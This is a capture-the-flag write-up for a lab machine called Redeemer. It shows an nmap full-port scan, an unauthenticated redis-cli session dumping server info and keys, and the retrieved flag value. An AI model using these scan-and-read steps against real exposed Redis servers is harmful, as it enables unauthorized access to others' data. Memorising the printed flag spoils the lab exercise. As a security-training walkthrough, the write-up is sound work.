




# Redeemer - Machine Writeup

## Machine Info
- Machine: Redeemer
- OS: Linux

---

## 1. Reconnaissance

Ran a full port scan against the target machine using nmap to find running services:

```bash
sdheeraj@fedora:~$ sudo nmap -sS -p- --min-rate 5000 10.129.215.175 -Pn
[sudo] password for sdheeraj: 
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-08 18:11 IST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.20% done; ETC: 18:11 (0:00:08 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 65.31% done; ETC: 18:11 (0:00:05 remaining)
Warning: 10.129.215.175 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.215.175
Host is up (0.25s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 19.81 seconds
```

Observation: Port 6379/tcp is open, running Redis key-value store version 5.0.7 on Linux. Redis is an in-memory database often used for caching and session management.

---

## 2. Enumeration

Connected to the remote Redis instance using the official command-line utility `redis-cli` with the `-h` flag:

```text
sdheeraj@fedora:~$ redis-cli -h 10.129.215.175
10.129.215.175:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:752
run_id:775b45e261130321c6b367f5ece469e8f21d6c45
tcp_port:6379
uptime_in_seconds:127
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:13078101
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5836800
used_memory_rss_human:5.57M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.12%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1570968
allocator_active:1892352
allocator_resident:9101312
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.20
allocator_frag_bytes:321384
allocator_rss_ratio:4.81
allocator_rss_bytes:7208960
rss_overhead_ratio:0.64
rss_overhead_bytes:-3264512
mem_fragmentation_ratio:7.14
mem_fragmentation_bytes:5019184
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:4
rdb_bgsave_in_progress:0
rdb_last_save_time:1791462870
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:5
total_commands_processed:7
instantaneous_ops_per_sec:0
total_net_input_bytes:332
total_net_output_bytes:12067
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:81aae1e79be135ab656dbf33e431bd820244bc90
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.086682
used_cpu_user:0.076952
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0

```

Observation: The `info` command executed directly without requiring password authentication (`AUTH`). The server is running Redis 5.0.7 and has 4 keys stored in database `db0`.

---

## 3. Exploitation

Selected database index 0 using the `select` command, listed all keys using `keys *`, and read the `flag` key using `get`:

```text
10.129.215.175:6379> select 0
OK
10.129.215.175:6379> keys *
1) "flag"
2) "temp"
3) "numb"
4) "stor"
10.129.215.175:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.215.175:6379> exit
```

The flag value was stored directly as plaintext in the `flag` key on database 0.

---

## 4. Flag

```text
03e1d2b376c37ab3f5319922053953eb
```

Proof of completed machine:



Solving:


